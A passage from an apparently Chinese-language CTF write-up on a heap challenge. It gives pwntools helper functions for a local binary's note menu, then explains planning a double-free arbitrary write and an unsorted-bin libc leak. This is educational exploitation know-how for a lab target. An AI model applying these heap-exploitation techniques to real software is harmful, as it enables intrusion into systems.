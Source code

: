 首先,把各个功能函数的使用给做好:

```python
from pwn import *

context.log_level = 'debug'
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def new_note(lfn,name,content):
    r.sendline("1")
    r.recvuntil("your note?")
    r.sendline(lfn)
    r.recvuntil("content:")
    r.send(name)
    sleep(.1)
    r.send(content)
    r.recvuntil("Done!")
    return
def show_note(index):
    index=str(index)
    r.sendline("2")
    r.recvuntil("Index:")
    r.sendline(index)
    sleep(.1)
#    r.recv()
def del_note(index):
    index=str(index)
    r.sendline("3")
    r.recvuntil("Index:")
    r.sendline(index)
def change_note(index,char,change):
    index=str(index)
    r.sendline("4")
    r.recvuntil("Index:")
    r.sendline(index)
    r.recvuntil("to change?")
    r.send(char)
    r.send(change)
    r.recv()

r=process("./pwn")
pause()
```

接下来,在我们利用`double_free`进行任意地址写之前,我们还得考虑:往哪写,写点啥?

首先,由于这道题目保护全开,所以我们不知道任何有用的地址.幸运的是,堆本身就能给我们泄露许多有用的信息.首先,对于空闲的chunk,它的\*fd(或许还有\*bk)大多是指向另一个chunk的,因此我们可以用UAF(使用已经被free的指针,use after free)去泄露堆地址.不过对于这题而言,我们要利用的是另一个东西,那就是unsorted_bin leak.

unsorted_bin是什么东西,这里并不打算细讲.总之我们只需要知道它是一个chunk组成的双向链表就行.而这个链表的头节点是一个由程序在一个和libc基址同一页的地址中预先创建好的结构体.因此我们只需泄露指向这个节点的指针,就能泄露libc基址.需要注意的是,一个chunk需要大于min_size(不进入fast_bin的最小大小,一般是0x80)才会进入unsorted_bin.所以我们需要控制这个用于泄露libc基址的chunk大小大于0x80.
